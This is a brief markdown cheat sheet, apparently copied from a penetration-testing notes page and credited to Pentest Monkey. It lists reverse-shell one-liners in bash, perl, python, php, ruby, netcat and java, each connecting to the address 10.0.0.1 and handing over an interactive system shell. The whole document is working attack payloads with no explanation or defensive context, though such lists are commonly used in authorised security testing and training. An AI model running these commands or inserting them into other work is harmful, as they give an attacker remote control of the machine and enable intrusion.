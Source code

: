 # Notes Cheat sheet

## Reverse Shells

---
> bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

> perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
> python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
> ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
> netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
> java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
*Shells Info for Pentest Monkey*
[Pentest Monkey](http://pentestmonkey.net "Web Pentest-Monkey")
